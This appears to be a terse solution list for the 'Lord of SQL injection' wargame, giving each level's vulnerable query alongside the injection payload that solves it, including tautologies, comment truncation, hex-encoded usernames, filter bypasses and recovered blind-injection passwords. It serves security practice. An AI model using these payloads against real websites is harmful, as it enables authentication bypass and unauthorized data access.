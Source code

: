 # Lord-of-Sql-injection

gremlin
prob : select id from prob_gremlin where id='' and pw=''
solve : ?id=' or 1=1%23

cobolt
prob : select id from prob_cobolt where id='' and pw=md5('')
solve : ?id=' or id='admin'%23

goblin
prob : select id from prob_goblin where id='guest' and no=
solve : ?no=' or id=0x61646d696e

orc(blind)
prob : select id from prob_orc where id='admin' and pw=''
solve : ?pw=095a9852

wolfman
prob : select id from prob_wolfman where id='guest' and pw=''
solve : ?pw=%27||id=0x61646d696e%23

darkelf
prob : select id from prob_darkelf where id='guest' and pw=''
solve : ?pw=%27||id=0x61646d696e%23

orge(blind)
prob : select id from prob_orge where id='guest' and pw=''
solve : ?pw=7b751aec

troll
prob : select id from prob_troll where id='ADmin'
solve : ?pw=AdMin

vampire
prob : select id from prob_vampire where id=''
solve : ?id=adadminmin

skeleton
prob : select id from prob_skeleton where id='guest' and pw='' and 1=0
solve : ?pw=' or id='admin'%23

golem(blind)
prob : select id from prob_golem where id='guest' and pw=''
solve : ?pw=77d6290b

darknight(blind)
prob : select id from prob_darkknight where id='guest' and pw='' and no=
solve : ?pw=0b70ea1f

bugbear(blind)
prob : select id from prob_bugbear where id='guest' and pw='' and no=
solve : ?pw=52dc3991

giant
prob : select 1234 from{$_GET[shit]}prob_giant where 1
solve : ?shit=%0b,?shit=%0c

assasin 
prob : select id from prob_assassin where pw like ''
solve : ?pw=%E%D%
memo : a% , %a , %a%

zombie_assassin
prob : select id from prob_zombie_assassin where id='' and pw=''
solve : pass
memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf

succubus(pass)
nightmare(pass)

xavis(blind)
prob : select id from prob_xavis where id='admin' and pw=''
solve : ?pw=우왕굳
memo : 한글 ascii

